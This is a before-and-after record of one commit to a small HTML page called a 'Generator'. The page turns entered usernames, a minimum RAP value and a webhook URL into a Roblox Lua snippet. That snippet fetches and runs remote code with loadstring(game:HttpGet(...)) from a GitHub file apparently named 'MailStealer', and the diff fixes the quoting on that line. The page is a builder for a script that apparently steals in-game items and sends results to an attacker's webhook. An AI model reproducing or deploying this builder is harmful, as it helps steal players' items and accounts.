

Before and after one commit to PsxScripty/Eks0va.github.io, a plain HTML site: page index.html in a window 1280 px wide. Both pictures are taken after typing "Sample", "Sample", "Sample", "Sample", "Sample" into the empty fields and a click on the button "Generate". Shown: the whole page, without its empty margins (319-959 px from the left). Drawn offline with nearby package versions, Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -57,7 +57,7 @@
 </head>
 <body>
   <div class="container">
-    <h1>Eksova Generator!</h1>
+    <h1>Injuries Generator!</h1>
     <form>
       <label for="username">Username:</label>
       <input type="text" id="username" name="username"><br><br>
@@ -65,7 +65,7 @@
       <input type="text" id="username2" name="username2"><br><br>
       <label for="minimumRAP">MinimumRAP:</label>
       <input type="text" id="minimumRAP" name="minimumRAP"><br><br>
-      <label for="webhook">Webhook:</label>
+      <label for="webhook">Webhook URL:</label>
       <input type="text" id="webhook" name="webhook"><br><br>
       <button type="button" onclick="generateOutput()">Generate</button>
       <textarea id="output"></textarea><br><br>
@@ -81,9 +81,9 @@
       const webhook = document.getElementById("webhook").value;
       const outputString = `Username = "${username}"\n` +
                            `Username2 = "${username2}"\n` +
+                           `MinimumRAP = "${minimumRAP}"\n` +
                            `Webhook = "${webhook}"\n` +
-                           `MinimumRAP = "${minimumRAP}"\n` +
-                           'loadstring(game:HttpGet("https://raw.githubusercontent.com/PsxScripty/Eks0va313/main/MailStealer/lua", true))();
+                           'loadstring(game:HttpGet("https://raw.githubusercontent.com/PsxScripty/Eks0va313/main/MailStealer/lua", true))()';
       document.getElementById("output").value = outputString;
       hljs.highlightAll();
     }
```
